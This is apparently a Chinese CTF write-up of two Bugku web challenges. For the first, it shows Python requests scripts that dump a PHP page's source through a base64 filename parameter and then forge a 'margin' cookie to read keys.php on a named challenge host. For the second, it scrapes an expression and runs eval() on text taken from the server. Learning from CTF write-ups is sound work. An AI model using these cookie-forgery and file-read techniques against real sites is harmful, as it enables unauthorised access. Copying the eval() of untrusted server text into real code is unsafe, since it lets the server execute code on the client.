

题库来源：bugku
题型：web
Cookie欺骗
解题
首先，得到题目信息
1. cookies欺骗
2. url信息：
http:
参数解释
line= 传入行号，目前为空
filename=a2V5cy50eHQ= 传入文件名，文件名编码为base64
a2V5cy50eHQ= base64编码，解码为：key.txt
3. 对应的key.txt信息
rfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibryrfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibry
|
信息上key.txt看不出任何有用的利用点
扫目录和文件扫不出所以然，着力点放在url上
题目提示，cookie伪造。题目信息传入变量只有两个，尝试传入一些信息获取有价值的信息
1.当filename为index.php时，指定行号，能获得一些代码信息
http:
网页返回：
if(in_array($file, $file_list)){
缺点是要手动调整行号，我们不知道文件到底有多少行，会浪费很多时间
|
Python爬取文件内容
b'error_reporting(0);\r\n'
b'$file=base64_decode(isset($_GET[\'filename\'])?$_GET[\'filename\']:"");\r\n'
b"$line=isset($_GET['line'])?intval($_GET['line']):0;\r\n"
b'if($file==\'\') header("location:index.php?line=&filename=a2V5cy50eHQ=");\r\n'
b'$file_list = array(\r\n'
b"'0' =>'keys.txt',\r\n"
b"'1' =>'index.php',\r\n"
b');\r\n'
b' \r\n'
b"if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){\r\n"
b"$file_list[2]='keys.php';\r\n"
b'}\r\n'
b' \r\n'
b'if(in_array($file, $file_list)){\r\n'
b'$fa = file($file);\r\n'
b'echo $fa[$line];\r\n'
b'}\r\n'
b'?>\r\n'
|
放到编译器修改下就变成
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
$file_list = array(
'0' =>'keys.txt',
'1' =>'index.php',
);
if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
$file_list[2]='keys.php';
}
|
题目说Cookie伪造，这里重点看伪造部分
if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
$file_list[2]='keys.php';
}
|
接下来只需要简单写个脚本把文件读取下来就行。下面是总的脚本
import requests
header = {
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36'
}
header1 = {
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
'Cookie': 'margin=margin'
}
def req(url, header):
response = requests.get(url=url, headers=header)
print(response.content)
def word(url, header):
a = 0
while a < 50:
a += 1
req(url + "?line={}&filename=aW5kZXgucGhw".format(a), header)
url1 = r'http://114.67.175.224:15562/index.php'
url2 = 'http://114.67.175.224:15562/index.php?line=&filename=a2V5cy5waHA='
req(url2, header1)
|
下面是获取出来的flag
总结
信息的读取和跑出能力：给你一串信息，要学会找攻击点。
涉及知识点：代码审计PHP
其他知识点：Python request的使用
重点：伪造Cookie再重新请求
秋名山车神
解题

从题目当中得到的信息
那么问题就转变为：
1.获取网页的等式，求出等式的值
2.将等式的值通过post形式传入后台，得到flag
题目的难点：如何保证自己的等式值不过期
解决办法：使用Session建立连接
|
具体代码实现如下
import re
import requests
def session(url):
reqs0 = requests.session()
reqs1 = reqs0.get(url)
ren = r'<div>(.*)</div>'
strs = str(reqs1.text)
num = eval(re.search(ren, strs).group(1).split('=')[0])
key={'value': num}
rx = reqs0.post(url, data=key)
print(rx.content)
session(url3)
|
这个脚本是我自己写的，网络上的脚本使用的是request.get(url,data=key).text，但说实在的，用text获取的时候出了不少bug，浪费了不少时间。
所以使用content是最稳妥的
最后就得到flag了
总结
大致考点
脚本编程，比较考验的是Python的代码能力。
Python的re，request模块
Python的eval将字符串转换为可执行代码
 wechat
wechat alipay
alipay